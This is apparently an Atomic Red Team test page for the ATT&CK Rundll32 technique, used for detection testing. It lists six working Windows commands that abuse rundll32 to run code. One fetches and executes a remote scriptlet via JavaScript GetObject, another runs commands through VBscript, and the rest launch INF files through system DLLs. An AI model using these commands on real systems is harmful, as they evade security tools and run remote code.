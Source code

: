 # T1085 - Rundll32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1085)
<blockquote>The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 advpack.dll Execution](#atomic-test-3---rundll32-advpackdll-execution)

- [Atomic Test #4 - Rundll32 ieadvpack.dll Execution](#atomic-test-4---rundll32-ieadvpackdll-execution)

- [Atomic Test #5 - Rundll32 syssetup.dll Execution](#atomic-test-5---rundll32-syssetupdll-execution)

- [Atomic Test #6 - Rundll32 setupapi.dll Execution](#atomic-test-6---rundll32-setupapidll-execution)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/T1085.sct|

#### Run it with `command_prompt`! 
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();
```



<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.

Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|

#### Run it with `command_prompt`! 
```
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```



<br/>
<br/>

## Atomic Test #3 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe advpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```



<br/>
<br/>

## Atomic Test #4 - Rundll32 ieadvpack.dll Execution
Test execution of a command using rundll32.exe with ieadvpack.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Ieadvpack.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe ieadvpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```



<br/>
<br/>

## Atomic Test #5 - Rundll32 syssetup.dll Execution
Test execution of a command using rundll32.exe with syssetup.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Syssetup.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085_DefaultInstall.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 .\#{inf_to_execute}
```



<br/>
<br/>

## Atomic Test #6 - Rundll32 setupapi.dll Execution
Test execution of a command using rundll32.exe with setupapi.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Setupapi.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085_DefaultInstall.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 .\#{inf_to_execute}
```



<br/>
